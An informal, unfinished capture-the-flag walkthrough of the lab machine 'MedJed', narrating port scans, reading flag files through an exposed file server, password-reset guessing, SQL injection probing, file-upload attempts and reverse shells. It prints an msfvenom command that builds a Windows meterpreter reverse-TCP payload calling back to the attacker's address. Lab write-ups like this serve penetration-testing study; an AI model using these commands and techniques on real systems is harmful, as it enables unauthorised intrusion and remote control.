 # MedJed

So i start off scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

On the web server i have a "Set admin account" page where i can create creds:

<figure><img src="../../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

I continue and see a web file server part where i have read - write access so i'll try to upload some malicious stuff here (btw i am able to go and read the local.txt in the desktop located at:

```
http://192.168.57.127:8000/fs/C/Users/Jerren/Desktop/local.txt
```

i tried just to see how an error would occure to go and read proof.txt and it worked?

<figure><img src="../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

yeah i'll have offsec mentality and try to go further than that because this box is trash if left like that...

So i try to upload a reverse shell and a webshell to the admin directory but i can't trigger them for the moment:

<figure><img src="../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

So i continue my enumeration, after doing a harder nmap i found these ports:

```
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
3306/tcp  open  mysql        syn-ack ttl 127
5040/tcp  open  unknown      syn-ack ttl 127
8000/tcp  open  http-alt     syn-ack ttl 127
30021/tcp open  unknown      syn-ack ttl 127
33033/tcp open  unknown      syn-ack ttl 127
44330/tcp open  unknown      syn-ack ttl 127
45332/tcp open  unknown      syn-ack ttl 127
45443/tcp open  unknown      syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  unknown      syn-ack ttl 127
49669/tcp open  unknown      syn-ack ttl 127
```

i went though all of them and found this on port 33033:

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

This part is a bit guessy to my POV but hey whatever, i tried using the little sentence as keywords to restet the password of each users and ended up succeeding with the cat user and 'paranoid', before that i tested:

evren.eager -> impossible -> opinion // joe.webb -> vision -> process // etc...

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption><p>jerren.devops:test123</p></figcaption></figure>

in their edit user thingy there is a upload avatar feature:

<figure><img src="../../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

So i upload a reverse shell but still it does not trigger anything:

<figure><img src="../../../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

and on the footer of the page there is a link to an endpoint that is called slug ->

<figure><img src="../../../.gitbook/assets/image (172).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.exploit-db.com/exploits/47205" %}

i end up seing exploits related to SQLi so maybe this is connected to the mysql instance on port 3306? and i manage to break the page by just injecting a quote:

<figure><img src="../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

I tried enumerating for tables or passwords but nope, going on to port 45332:

<figure><img src="../../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

for a broken box this is starting to piss me off, after fuzzing this trash quiz app i end up on this endpoint:

<figure><img src="../../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

Since php is running in this directory i tried doing an LFI to go and hit in C/Users/Administrator/Desktop/reverseshell.php but no good, so i try to find the directory of the php info and try to upload my reverse shell there ->

```
C:/xampp/htdocs/phpinfo.php 
```

<figure><img src="../../../.gitbook/assets/image (176).png" alt=""><figcaption></figcaption></figure>

So i upload the reverse shell and manage to make a ping back but no persistent connection:

<figure><img src="../../../.gitbook/assets/image (177).png" alt=""><figcaption></figcaption></figure>

bruh i tried plenty of revshells so i started to crash out then i hopped on revshells.com, went to windows and decided to launch msfvenom

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.49.57 LPORT=1234 -f exe -o reverse.exe
```

still does not work hell nah

<figure><img src="../../../.gitbook/assets/image (178).png" alt=""><figcaption><p>will come back after eating </p></figcaption></figure>
